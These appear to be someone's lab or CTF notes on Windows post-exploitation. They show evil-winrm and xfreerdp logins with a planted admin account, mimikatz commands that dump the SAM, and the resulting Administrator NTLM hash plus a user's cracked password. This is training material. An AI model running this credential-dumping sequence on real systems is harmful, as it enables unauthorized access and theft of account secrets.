 From the enumeration we did on this target we know that ports 3389 and 5985 are open. This means that (using an account with the correct privileges) we should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).

Adding new user and giving Admin privileges
![[Screenshot 2021-04-13 at 7.21.04 PM.png]]

Using evil-winrm for stable shell and as post exploitation

`evil-winrm -u sp00f -p "paSSword" -i 10.200.109.150`

![[Screenshot 2021-04-13 at 7.24.09 PM.png]]

using xfreerdp to get the hashes of the admin
`xfreerdp /v:10.200.109.150 /u:sp00f /p:paSSword /drive:/usr/share/windows-resources,share`


![[Screenshot 2021-04-13 at 7.58.27 PM.png]]
![[Screenshot 2021-04-13 at 7.58.47 PM.png]]

Running the mimikatz binary to get escalate the privileges as we still cant get the hashes
`\\tsclient\share\mimikatz\x64\mimikatz.exe`

Running
`privilege::debug`
`oken::elevate`

and `lsadump::sam` to get the dump
![[Screenshot 2021-04-13 at 8.02.03 PM.png]]


```
RID  : 000001f4 (500)                                                                                                   User : Administrator                                                                                                      Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1      
```

```
hash

thmomas 02d90eda8f6b6b06c32d5f207831101f 
passwd: i<3ruby
```

![[Screenshot 2021-04-13 at 8.57.08 PM.png]]

